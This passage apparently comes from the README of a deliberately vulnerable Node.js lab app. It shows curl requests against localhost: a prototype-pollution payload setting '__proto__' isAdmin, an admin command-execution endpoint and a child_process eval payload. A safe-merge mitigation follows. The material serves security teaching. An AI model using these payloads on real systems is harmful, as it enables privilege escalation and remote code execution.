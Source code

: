 **Update user with prototype pollution**
```bash
curl -X PUT http://localhost:3000/users/me \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "updates": {
      "preferences": {
        "__proto__": {
          "isAdmin": true,
          "exposeEnv": true
        }
      }
    }
  }'
```

### 2. Remote Code Execution (RCE)

**Execute system commands (requires admin)**
```bash
curl -X POST http://localhost:3000/admin/execute \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "whoami"
  }'
```

**JavaScript evaluation**
```bash
curl -X POST http://localhost:3000/admin/eval \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "code": "require(\"child_process\").execSync(\"whoami\").toString()"
  }'
```

## 🛡️ Mitigation Strategies

### 1. Safe Object Operations
```javascript
// Use Object.create(null) for objects that shouldn't inherit
const safeObject = Object.create(null);

// Safe object merge
function safeMerge(target, source) {
    for (const key in source) {
        if (key !== '__proto__' && key !== 'constructor' && key !== 'prototype') {
            target[key] = source[key];
        }
    }
    return target;
}
```
